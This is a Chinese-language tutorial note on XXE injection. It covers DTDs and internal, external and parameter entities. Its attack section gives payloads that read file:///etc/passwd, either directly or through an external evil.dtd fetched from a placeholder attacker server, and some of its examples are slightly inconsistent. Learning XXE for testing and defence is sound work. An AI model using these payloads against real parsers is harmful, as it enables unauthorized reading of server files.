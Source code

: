 ```yaml
---
title: xxe
date: 2021-12-24 21:46:28
tags:
      - xxe
categories: xxe
typora-root-url: ..
description: xxe
---
```


### xxe

xxe全程XML External Entity Injection即xml外部实体注入漏洞,XXE漏洞发生在**应用程序解析XML输入时,没有禁止外部实体的加载**,导致可能加载恶意外部文件,造成文件读取,命令执行,内网探测...

#### DTD

Document Type Definition 文档类型定义

##### DTD示例

`<!ELEMENT 元素名 类型>`

文件名xxe.dtd

```dtd
<!ELEMENT 班级 (学生+)>
<!ELEMENT 学生 (名字,年龄,介绍)>
<!ELEMENT 名字 (#PCDATA)>
<!ELEMENT 年龄 (#PCDATA)>
<!ELEMENT 介绍 (#PCDATA)>
```

##### PCDATA

PCDATA 的意思是被解析的字符数据（parsed character data）。
PCDATA 是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。

##### CDATA

CDATA 的意思是字符数据（character data）。
CDATA 是不会被解析器解析的文本。

##### XML示例

班级为根元素

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE 班级 SYSTEM "xxe.dtd">
<班级>
	<学生>
        <名字>张三</名字>
        <年龄>19</年龄>
        <介绍>好孩子</介绍>
    </学生>
    <学生>
        <名字>小明</名字>
        <年龄>21</年龄>
        <介绍>学习认真</介绍>
    </学生>
</班级>
```

内部DTD

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE 班级 [
<!ELEMENT 班级 (学生+)>
<!ELEMENT 学生 (名字,年龄,介绍)>
<!ELEMENT 名字 (#PCDATA)>
<!ELEMENT 年龄 (#PCDATA)>
<!ELEMENT 介绍 (#PCDATA)>
]>
<班级>
	<学生>
        <名字>张三</名字>
        <年龄>19</年龄>
        <介绍>好孩子</介绍>
    </学生>
    <学生>
        <名字>小明</名字>
        <年龄>21</年龄>
        <介绍>学习认真</介绍>
    </学生>
</班级>
```



#### 具体操作

引入外部的DTD文档分为两种:

##### 1.`<!DOCTYPE 文档类型名称 SYSTEM  "DTD文档的URL">`

##### 2.`<!DOCTYPE 文档类型名称 PUBLIC "DTD名称" "DTD文件的URL">`

DTD实体

实体≈变量



##### 内部实体

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE neo[
	<!ELEMENT neo ANY>
	<!ENTITY xxe "hello">
]>
<neo>&xxe;</neo>
```

会在页面回显hello

##### 外部实体

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE neo[
	<!ELEMENT neo ANY>
	<!ENTITY xxe SYSTEM "文档URL">
]>
<neo>&xxe;</neo>
```

##### 参数实体

参数实体只能在DTD文档中定义,DTD中引用

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE neo[
	<!ELEMENT neo ANY>
	<!ENTITY % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd">
	%xxe;

]>
<neo>&evil;</neo>
```

#### 攻击方式

##### 直接通过DTD外部实体声明

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE neo[
	<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<c>&xxe;</c>
```

##### 通过DTD文档引入外部DTD文档,再引入外部实体声明

xml内容

```xml
<?xml version="1.0"?>
<!DOCTYPE neo SYSTEM "dtd文档url">
<c>&xxe;</c>
```

dtd内容

```dtd
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

通过参数实体

先写一个外部实体声明,然后引用在攻击者服务器上面的外部实体声明

xml内容

```xml
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY %d SYSTEM "http://xxx.xxx/evil.dtd">
	%d;
]>
<c>&xxe;</c>
```

dtd文件内容

```dtd
<!ENTITY b SYSTEM "file:///etc/passwd">
```

#### 协议支持

![image-20211225130238479](/images/xxe/image-20211225130238479.png)
